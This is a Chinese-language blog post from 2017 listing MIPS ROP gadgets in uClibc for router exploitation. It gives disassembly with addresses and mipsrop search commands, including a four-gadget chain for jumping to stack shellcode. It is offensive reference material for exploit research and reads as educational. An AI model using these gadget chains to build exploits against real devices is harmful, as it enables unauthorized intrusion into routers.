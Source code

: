 ```yaml
---
title: MIPS rop gadgets记录贴&&持续更新
authorId: hac425
tags:
  - mips rop
categories:
  - 路由器安全
date: 2017-10-27 15:01:00
---
```

### 前言

本帖记录一些常用的,效果好的 rop gadgets.

**uClibc**

**从栈中设置`$t9` 并跳到 `$t9` 的gadgets , `__thread_start` 函数第二行**

使用 [案例](https://jinyu00.github.io/%E8%B7%AF%E7%94%B1%E5%99%A8%E5%AE%89%E5%85%A8/2017-10-27-%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5pwn%E8%B7%AF%E7%94%B1%E5%99%A8%E4%B9%8B%E6%A0%88%E6%BA%A2%E5%87%BA%E5%AE%9E%E6%88%98.html)

使用tips:
- 调用函数时，进入函数内部时要求 `$t9` 指向函数的起始地址。

```
lw      $t9, arg_0($sp)
jalr    $t9

```

**四个组合使用，调用栈中 shellcode 的 rop_gadget , 需要可以控制 `$s1`,**

详细分析在[这里
](https://jinyu00.github.io/%E8%B7%AF%E7%94%B1%E5%99%A8%E5%AE%89%E5%85%A8/2017-10-26-%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5pwn%E8%B7%AF%E7%94%B1%E5%99%A8%E4%B9%8B%E8%B7%AF%E7%94%B1%E5%99%A8%E7%8E%AF%E5%A2%83%E4%BF%AE%E5%A4%8D-rop%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90.html)

rop_gadget 1, **设置 参数一 为 1**，位于 `__uClibc_main` ,可以使用 `mipsrop.find("li $a0, 1")` 查找
```
	LOAD:00055C60                 li      $a0, 1
	LOAD:00055C64                 move    $t9, $s1
	LOAD:00055C68                 jalr    $t9 ; sub_55960
	LOAD:00055C5C                 lui     $s0, 2
```

rop_gadget 2，**从栈中设置寄存器**，使用 `mipsrop.tail()` 查找
```
	LOAD:0001E20C                 move    $t9, $s1
	LOAD:0001E210                 lw      $ra, 0x28+var_4($sp)
	LOAD:0001E214                 lw      $s2, 0x28+var_8($sp)
	LOAD:0001E218                 lw      $s1, 0x28+var_C($sp)
	LOAD:0001E21C                 lw      $s0, 0x28+var_10($sp)
	LOAD:0001E220                 jr      $t9
	LOAD:0001E224                 addiu   $sp, 0x28

```

rop_gadget 3，**获取栈地址**，使用 `mipsrop.stackfinder()` 查找

```
	LOAD:000164C0                 addiu   $s2, $sp, 0x198+var_180
	LOAD:000164C4                 move    $a2, $v1
	LOAD:000164C8                 move    $t9, $s0
	LOAD:000164CC                 jalr    $t9 ; mempcpy
	LOAD:000164D0                 move    $a0, $s2

```
rop_gadget 4，**通过 `$t9`, 跳转到 `$s2`**，使用 `mipsrop.find("move    $t9, $s2")` 查找, 位于 `readdir`
```
	LOAD:000118A4                 move    $t9, $s2
	LOAD:000118A8                 jalr    $t9
```

**从栈中取数据到寄存器, `opendir`  函数尾部**
```
.text:0000AA6C                 lw      $ra, 0xC0+var_4($sp)
.text:0000AA70                 lw      $s2, 0xC0+var_8($sp)
.text:0000AA74                 lw      $s1, 0xC0+var_C($sp)
.text:0000AA78                 lw      $s0, 0xC0+var_10($sp)
.text:0000AA7C                 jr      $ra
.text:0000AA80                 addiu   $sp, 0xC0
.text:0000AA80  # End of function opendir
```

**从栈中设置基本上所有的重要寄存器，位于 `scandir` 或者 `scandir64`尾部**
```
LOAD:00011BB0                 lw      $ra, 0x40+var_4($sp)
LOAD:00011BB4                 lw      $fp, 0x40+var_8($sp)
LOAD:00011BB8                 lw      $s7, 0x40+var_C($sp)
LOAD:00011BBC                 lw      $s6, 0x40+var_10($sp)
LOAD:00011BC0                 lw      $s5, 0x40+var_14($sp)
LOAD:00011BC4                 lw      $s4, 0x40+var_18($sp)
LOAD:00011BC8                 lw      $s3, 0x40+var_1C($sp)
LOAD:00011BCC                 lw      $s2, 0x40+var_20($sp)
LOAD:00011BD0                 lw      $s1, 0x40+var_24($sp)
LOAD:00011BD4                 lw      $s0, 0x40+var_28($sp)
LOAD:00011BD8                 jr      $ra
LOAD:00011BDC                 addiu   $sp, 0x40
LOAD:00011BDC  # End of function scandir
```
